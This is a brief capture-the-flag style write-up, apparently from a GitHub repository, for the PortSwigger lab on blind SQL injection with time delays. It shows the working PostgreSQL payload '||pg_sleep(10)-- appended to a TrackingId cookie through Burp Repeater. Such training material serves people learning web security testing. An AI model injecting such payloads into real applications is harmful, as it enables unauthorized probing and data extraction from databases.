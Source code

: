 # Blind SQL injection with time delays

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay

___

#blind_sql #time_delay 

step 1

go to proxy => http history => select any Request => then send to repeater

![screnshot](./images/lab14_1.png)

step 2

add `'||pg_sleep(10)--`
```sql
TrackingId=H6PEjxCz0hhaCVYE'||pg_sleep(10)--
```

![screnshot](./images/lab14_2.png)

step 3

Reload page to solve the lab

![screnshot](./images/lab14_3.png)
